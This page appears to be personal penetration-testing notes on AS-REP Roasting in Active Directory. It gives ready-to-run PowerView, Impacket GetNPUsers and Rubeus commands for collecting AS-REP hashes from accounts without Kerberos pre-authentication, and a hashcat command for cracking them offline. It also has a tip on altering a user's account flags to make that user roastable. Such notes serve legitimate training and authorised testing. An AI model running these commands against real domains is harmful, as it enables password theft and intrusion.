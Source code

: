 alias:: ASREPRoast
public:: true

- In case the [Kerberos Pre-Authentication](((655b158a-a666-41e0-8076-e59942a7bb20))) is not enabled for one or more domain users, an [AS-REQ](((655b1c01-e1e1-4be0-b245-ff8c9482df38))) can be forged without knowing their password (or the hash) and sent to KDC on their behalf.
- Once the [AS-REP](((655b1795-7a37-4e7f-b428-6c9a34ab2cbf))) is returned from the domain controller, [the encrypted part of the response](1. ) can be brute-forced offline to retrieve the user password.
- #+BEGIN_NOTE
  Please note that in order to execute most of the following commands you need be able to query the DC. Hence, you need access to a valid domain user.
  #+END_NOTE
	- From Windows via PowerView
		- Retrieve the list of users with [Kerberos Pre-Authentication disabled](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainUser/).
		  id:: 655cf631-e9b4-4a1f-99d0-45c801c69f8c
		  ```powershell
		  Get-DomainUser -KerberosPreuthNotRequired
		  ```
		  Retrieve the list of users with Kerberos Pre-Authentication disabled **and don't have an expired password**.
		  ```powershell
		  Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED
		  ```
	- From Linux via [[Impacket GetNPUsers]]
		- id:: 5971e61f-2ed6-4dd2-91a6-1752dfb51de7
		  ```bash
		  impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
		  ```
- id:: 655cf4a9-95ae-4eb8-be69-cd1fb9b251c6
  #+BEGIN_TIP
  If you have **GenericWrite** or **GenericAll** rights over a target user, you can maliciously [modify their userAccountControl](https://learn.microsoft.com/en-US/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) to [not require preauth](((655b158a-a666-41e0-8076-e59942a7bb20))), use [[AS-REP Roasting]] , and then reset the value.
  #+END_TIP
- Retrieve ASREPRoast hashes
	- From Linux with [[Impacket GetNPUsers]]
		- id:: 655cf20b-a6e7-4003-8049-8d922905d0b1
		  ```bash
		  impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
		  ```
			- `-request` - is specified to request the [TGT](((655a4269-21dc-4947-a21d-5c89e404b561))).
			- `corp.com/pete` - is the domain user from where we can query the DC. We'll need to input his password.
			- `-outputfile hashes.asreproast` - file to save captured hashes.
				- Default output is for [[Hashcat]]. The generate [[JTR]] compatible hash use `--format john`
	- From Windows with [[Rubeus]]
		- id:: 655cf178-e37d-4ab0-9e2b-e16c2ff7c94f
		  ```powershell
		  .\Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.asreproast
		  ```
			- By default only users that have the property [*Do not require Kerberos preauthentication*](((655b158a-a666-41e0-8076-e59942a7bb20))) set are processed. For the full `asreproast` command usage [check here](https://github.com/GhostPack/Rubeus#asreproast).
			- `/format:hashcat` - Generate [[Hashcat]] compatible hash, the default output is for [[JTR]].
			- `/outfile:` - file to save captured hashes.
- Crack **Kerberos 5 AS-REP** hashes via [[Hashcat]] with the [`-m 18200`](https://hashcat.net/wiki/doku.php?id=example_hashes) option.
  id:: 655cd6cd-968a-4756-b77f-35c47110ad33
  ```bash
  sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt \
  	-r /usr/share/hashcat/rules/best64.rule --force
  ```
	- `-m 18200` - specifies the correct mode
	- `hashes.asreproast` - is the file with the hashes, as it was output by `impacket-GetNPUsers` or `Rubeus`
	- `rockyou.txt` - the wordlist we want to use
	- `best64.rule` - the rules to apply to the wordlist
	- `--force` - to run `hashcat` in Kali